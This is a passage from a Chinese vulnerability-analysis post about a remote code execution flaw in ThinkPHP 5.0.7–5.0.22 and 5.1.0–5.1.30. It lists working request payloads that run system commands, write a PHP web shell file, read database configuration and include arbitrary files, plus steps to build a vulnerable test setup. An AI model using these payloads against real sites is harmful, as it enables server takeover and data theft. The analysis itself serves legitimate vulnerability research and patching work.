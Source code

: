 本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **远程代码执行** 漏洞。

## 漏洞概要

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.7<=ThinkPHP5<=5.0.22** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整：

**5.1.x** ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

**5.0.x** ：

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

## 漏洞环境

通过以下命令获取测试环境代码：

```bash
composer create-project --prefer-dist topthink/think tpdemo
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.30"
},
```

然后执行 `composer update` 。接着访问 **http://localhost:8000/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1** 链接，即可触发 **远程代码执行漏洞** 。

![1](ThinkPHP5漏洞分析之代码执行9/1.png)
